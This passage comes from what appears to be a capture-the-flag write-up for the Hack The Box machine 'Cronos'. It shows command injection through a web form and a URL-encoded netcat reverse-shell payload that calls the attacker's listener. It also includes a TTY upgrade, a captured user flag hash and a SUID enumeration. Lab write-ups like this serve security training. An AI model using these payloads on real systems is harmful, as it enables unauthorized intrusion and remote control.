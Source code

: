I sent this over to Burpsuite to make it easier, and in the above image it shows that by adding ";whoami" to the password field it executes that command and displayed the results in the response as "www-data".

## www-data Shell

By sending a bash reverse shell here I was able to get a reverse shell on my netcat listener

payload:
```sh
command=ping+-c+1&host=8.8.8.8;echo+"rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.11+443+>/tmp/f"+|+bash
```

listener:
```sh
┌──(kali㉿kali)-[~/boxes/htb/cronos]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.13] 49830
/bin/sh: 0: can't access tty; job control turned off
$ 
```


I used python to spawn a TTY shell

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@cronos:/var/www/admin$ 
```


In /home/noulis I do have read access to user.txt

```sh
cat user.txt
51d236438b333970dbba7dc3089be33b
```


A couple manual things I like to do before running linpeas or another enumeration script. One thing is to seard for SUID files. In this case I didnt see anything interesting.

```sh
find / -perm -4000 -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd

```